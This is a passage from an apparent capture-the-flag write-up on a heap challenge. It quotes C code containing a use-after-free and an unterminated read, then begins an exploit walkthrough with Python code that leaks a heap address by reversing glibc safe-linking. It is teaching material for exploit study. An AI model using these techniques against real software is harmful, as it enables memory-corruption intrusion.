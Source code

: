 ```c
// update linked lists
free(c[index++].next);
for (; index < globals.curr_cookie_index; index++) {
    if (index != 0) {
        c[index].prev = c[index].next;
        c[index].next->next = (unsigned int *)&c[index - 1];
    }
    if (index != MAX_COOKIES - 1) {
        c[index].next = c[index + 1].next;
    }
    else {
        c[index].prev = 0;
        c[index].next = 0;
        globals.curr_cookie_index--;
    }
}
```

* The second, more minor, vulnerability is an incorrectly implemented `read` call in the `ask_8ball` function. The function null terminates the chunk, but does not terminate immediately after the input. This is not immediately noticeable when dealing with a fresh heap, since null bytes on the heap terminate the string printout automatically. However, it does allow memory leaks by reading past the end of user input.

```c
printf(" Ask a question to the magic 8 ball\n > ");
read(0, question + 17, 0x70 - 17);
question[0x6f] = '\0';
```

## Exploit Walkthrough
### Leak a Heap Address
Leaking a heap address with the first vulnerability is simple. Filling the fortune cookie array and then choosing an index to delete creates a UAF . It is useful to delete an early (low) index so that the same vulnerability can be used later in the exploit. Reading this index after freeing it leaks the address in the first quadword.  If the chunk is in either tcache or fastbins (which can be forced by allocating and freeing Magic 8 Ball questions), then this is pointer to the `fw` chunk.  However, this chunk is not a valid heap address as it would be pre-2.32 glibc; instead the pointer is "protected" with safe-linking. This still does provide valuable information. If the freed chunk is near the beginning of the heap, the leaked memory address reveals the heap starting address by ignoring the lowest three nibbles and shifting the leaked pointer left by 12 bits. *Note: this assumes the chunk is not `>0xfff` bytes after the start of the heap. If this were the case, the obfuscated pointer's most significant 5 nibbles would not match the heap starting address.* **This works because safe-linking two heap pointers only obfuscates the last 3 nibbles, and the heap start always starts on a `0x1000` aligned address**.

```python
# free UAF with link in fastbins
resp = cookie()
assert resp == b' You have no room to save any more fortunes. Please choose one to delete\n'
p.send(b'0\n')
p.recvuntil(b' > ')

# leak heap address
# only read 5 most significant nibbles
leak = int.from_bytes(read_cookie(0)[2:7], "little") 
print(hex(leak)) 
heap_start = leak << 12
print(hex(heap_start))

assert (heap_start & 0xfff) == 0 
```
